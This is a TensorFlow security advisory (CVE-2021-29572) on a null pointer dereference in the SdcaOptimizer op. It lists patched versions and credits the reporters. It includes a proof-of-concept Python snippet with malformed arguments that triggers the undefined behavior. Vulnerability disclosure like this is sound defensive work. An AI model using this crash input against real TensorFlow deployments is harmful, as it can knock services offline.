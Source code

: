 ## TFSA-2021-060: Reference binding to nullptr in `SdcaOptimizer`

### CVE Number
CVE-2021-29572

### Impact
The implementation of `tf.raw_ops.SdcaOptimizer` triggers undefined behavior
due to dereferencing a null pointer:

```python
import tensorflow as tf

sparse_example_indices = [tf.constant((0), dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_feature_indices = [tf.constant([], shape=[0, 0, 0, 0], dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_feature_values = []

dense_features = []
dense_weights = []

example_weights = tf.constant((0.0), dtype=tf.float32)
example_labels = tf.constant((0.0), dtype=tf.float32)

sparse_indices = [tf.constant((0), dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_weights = [tf.constant((0.0), dtype=tf.float32), tf.constant((0.0), dtype=tf.float32)]

example_state_data = tf.constant([0.0, 0.0, 0.0, 0.0], shape=[1, 4], dtype=tf.float32)

tf.raw_ops.SdcaOptimizer(
  sparse_example_indices=sparse_example_indices,
  sparse_feature_indices=sparse_feature_indices,
  sparse_feature_values=sparse_feature_values, dense_features=dense_features,
  example_weights=example_weights, example_labels=example_labels,
  sparse_indices=sparse_indices, sparse_weights=sparse_weights,
  dense_weights=dense_weights, example_state_data=example_state_data,
  loss_type="logistic_loss", l1=0.0, l2=0.0, num_loss_partitions=1,
  num_inner_iterations=1, adaptative=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/60a45c8b6192a4699f2e2709a2645a751d435cc3/tensorflow/core/kernels/sdca_internal.cc)
does not validate that the user supplied arguments satisfy all [constraints
expected by the
op](https://www.tensorflow.org/api_docs/python/tf/raw_ops/SdcaOptimizer).

### Patches
We have patched the issue in GitHub commit
[f7cc8755ac6683131fdfa7a8a121f9d7a9dec6fb](https://github.com/tensorflow/tensorflow/commit/f7cc8755ac6683131fdfa7a8a121f9d7a9dec6fb).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
